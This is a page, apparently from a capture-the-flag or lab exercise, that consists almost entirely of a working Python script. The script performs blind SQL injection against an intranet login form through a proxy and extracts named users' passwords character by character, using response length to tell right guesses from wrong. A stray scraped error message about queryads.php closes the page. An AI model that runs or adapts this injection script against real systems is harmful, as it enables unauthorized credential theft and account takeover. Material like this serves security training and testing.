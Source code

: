 ```python
import requests
import string

#URL to connect to
url = 'http://172.31.179.1/intranet.php'
#URL of connection proxy
proxy_url = 'http://10.10.10.200:3128'
#list of users to get passwords for
userlist = ['rita','jim','bryan','sarah']

def pass_brute(users):
    for user in users:
        print('\nGetting password for user: {0}'.format(user))

        data = {'Username': '', 'Password': "' or Username='" + user + "' and substring(Password,0,1)='x"}
        request = requests.post(url, data=data, proxies={'http':proxy_url})
        req_len = len(request.text)

        password = ''
        print('[+] Enumerating password: ', sep="", end="", flush=True)

        #Will test for passwords up to length 24. Edit this range for longer passwords
        for i in range(1,24):
            found = False
            for char in string.printable:

                #Print each character cycling through each guess and stopping when selected
                #can also be done with sys.stdout, for print() use end='\b' (backspace - for single characters only)
                print('{0}'.format(char), end="\b", flush=True)

                #Set up data to be sent in request. POST with username; SQL inject in password
                data = {'Username': '', 'Password': "' or Username='" + user + "' and substring(Password," + str(i) + ",1)='" + char + ""}
                request = requests.post(url, data=data, proxies={'http':proxy_url})
                #test to see if response shows valid guess
                if len(request.text) != req_len:
                    found = True
                    break
            if not found:
               break

            print('{0}'.format(char), sep="", end="", flush=True)
            password += char

        #print final password, stripping off the extra single quotes    
        print('\nUse credentials: {0}:{1}'.format(user,password).rstrip('\''))

pass_brute(userlist)
```


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>